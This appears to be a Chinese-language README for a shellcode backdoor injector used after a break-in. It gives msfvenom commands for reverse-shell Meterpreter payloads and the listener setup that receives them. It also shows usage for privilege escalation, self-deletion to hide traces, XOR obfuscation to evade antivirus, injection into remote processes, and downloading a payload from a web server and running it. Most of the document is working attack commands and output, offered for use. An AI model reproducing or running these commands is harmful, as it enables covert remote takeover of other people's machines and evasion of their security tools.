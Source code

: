 # ShellCode 内存后门注入器

<br>

<div align=center>
  
![logo](https://user-images.githubusercontent.com/52789403/185021479-1816c5bc-2ad4-4d54-beca-08ba5e3b3253.png)

<br>

[![Build status](https://cdn.lyshark.com/archive/LyScript/build.svg)](https://github.com/lyshark/PeView) [![Crowdin](https://cdn.lyshark.com/archive/LyScript/email.svg)](mailto:me@lyshark.com)  [![Download x64dbg](https://cdn.lyshark.com/archive/lydebug/download.svg)](https://github.com/lyshark/lydebug/releases) 

</div>

<br>
<b>版本：1.3</b>
<br>
<b>发布日期：2021-07-05 07:25</b>
<br><br>

ShellInject 是一款通用ShellCode后门注入器，该工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后Metasploit即可获取控制权，只要对端不关机则权限会维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

主要模块与功能:

 - 1.显示可注入进程
 - 2.提升自身权限
 - 3.删除自身痕迹
 - 4.字节数组格式化
 - 5.字节数组格式化
 - 6.文本压缩后异或
 - 7.字符串转为字节数组
 - 8.字节数组加密/解密
 - 9.注入字符串到自身
 - 10.注入字节数组到自身
 - 11.从文本字符串注入
 - 12.注入字符串到远程进程
 - 13.从远程加载字符串并注入
 - 14.从文件读入加密字符串并注入
 - 15.注入加密后的字符串到远程进程

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.116 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为32位与64位，使用时需要与载荷的位数相对应。
```
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.1.116
msf6 > set lport 9999

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
```

**输出可注入进程:** 列举出目前系统中支持注入的进程，输出参数中最左侧是位数，只可做参考有时不太准确。
```
C:\Users\admin\Desktop> sc32.exe --show

[*] x32 进程PID =>      4        进程名 => System
[*] x32 进程PID =>    124        进程名 => Registry
[*] x32 进程PID =>    468        进程名 => smss.exe
[*] x32 进程PID =>    720        进程名 => csrss.exe
[*] x64 进程PID =>   6888        进程名 => explorer.exe
```

**尝试使用令牌提权:** 该命令可以尝试提升自身权限，不过多半提权会是失败的，但也可以试试。
```C
C:\Users\admin\Desktop> sc32.exe --promote

[+] 获取自身Token
[+] 查询进程特权
[*] 已提升为管理员
```

**清除自身痕迹:** 当我们完成远程注入后，记得将自身在系统中删除，此时的ShellCode直接在目标进程中安家了，不需要注入器了。
```
C:\Users\admin\Desktop> sc32.exe --delself

[*] 自身已清除
```

**将攻击载荷格式化为一行:** 将Metasploit生成的ShellCode载荷保存为文件，然后使用该命令直接将其格式化为一行。

在保存ShellCode的时候，请不要保存头部的定义部分，只保存以下代码即可。
```
C:\Users\admin\Desktop> sc32.exe Format --path d://shellcode.txt

fce88f0000006089e531d2648b52308b520c8b52148b722831ff0fb74a2631c0ac3c601d630000687773325f54684......
```

**将攻击载荷格式化并写出:** 这个格式化函数作用与上方相同，只不过可以直接写出到文件中，在你只有一个cmd权限时，可以使用。
```
C:\Users\admin\Desktop> sc32.exe FormatFile --path d://shellcode.txt --output d://format.txt

[+] 已储存 => d://format.txt
```

**加密/解密攻击载荷:** 如上我们可以将shellcode压缩为一行，然后可以调用xor命令，对这段shellcode进行加密处理。
```
C:\Users\admin\Desktop> sc32.exe Xor --path d://format.txt --passwd lyshark

% &{{%ssssssus{z&vpr'quw{!vqps{!vqs {!vqrw{!tqq{pr%%s%!tw"qupr s" p urt sqq qs r %s'
```

**压缩载荷并转字节数组:** 将一段已经压缩过的shellcode代码转换为字节数组格式，这个格式可以直接使用。
```
C:\Users\admin\Desktop> sc32.exe Xchg --input d://format.txt --output d://array.txt

[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt
```

**异或加密/解密字节数组:** 将字节数组整体加密或解密为字节数组，无需在程序代码中转换，使用更方便。
```
C:\Users\admin\Desktop>sc32.exe XorArray --path d://array.txt --passwd lyshark
```

**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```
